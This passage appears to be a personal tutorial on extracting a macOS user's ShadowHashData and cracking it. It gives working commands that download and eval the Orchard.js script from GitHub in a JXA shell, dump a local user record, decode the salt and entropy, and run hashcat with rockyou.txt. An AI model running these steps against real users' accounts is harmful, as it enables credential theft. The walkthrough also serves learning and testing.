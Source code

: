 this contains the hashing algorithm (like PBKDF2), the number of iterations, the salt, and **entropy** (i.e. the actual hashed password.)

you can attempt to crack this using `hashcat`, with the form `$ml$[iterations]$[salt]$[entropy]`, but this will be painfully slow.

instead, we can use [Orchard](https://github.com/its-a-feature/Orchard/blob/master/Orchard.js) to leverage JXA (JavaScript for Automation) to do some enumeration.

set up a scripting environment:

```bash
$ osascript -l JavaScript -i
```

then enter the following command:

```js
>> eval(ObjC.unwrap($.NSString.alloc.initWithDataEncoding($.NSData.dataWithContentsOfURL($.NSURL.URLWithString('https://raw.githubusercontent.com/its-a-feature/Orchard/master/Orchard.js')),$.NSUTF8StringEncoding)));
```

you can now call functions inside this environment. for example, i want to get my local user data.

```js
Get_LocalUser({user:"bilal"})
```

- ![alt text](/shadow.png)

the output here is massive. i'm interested in `dsAttrTypeNative:ShadowHashData`, which manifests as a base64 blob. it's easier to save the output to a file, then `grep` it.

```js
Get_LocalUser({user:"bilal"}) > user_data.json
```

```bash
grep -A1 "dsAttrTypeNative:ShadowHashData" user_data.json
```

once you collect the base64 blob above, feed it into the command below and decode it.

```bash
echo <blob> | base64 -D > shadowhash.bplist
```

convert the `plist` to XML. 

```bash
plutil -convert xml1 shadowhash.bplist
```

we'll need the salt (`SALTED-SHA512-PBKDF2`) and entropy sections, and in hex, so let's convert them.

```bash
echo <salt> | base64 -D > salt

xxd -p salt | tr -d '\n'
```

now that we have all the parts, create a hash file for cracking. remember the format: `$ml$iterations$salt$entropy`.

the hashcat command to crack the password is simple, and all you need is a reliable password list (`rockyou.txt`).

```bash
hashcat -m 7100 <hash-file> ~/tools/rockyou.txt
```

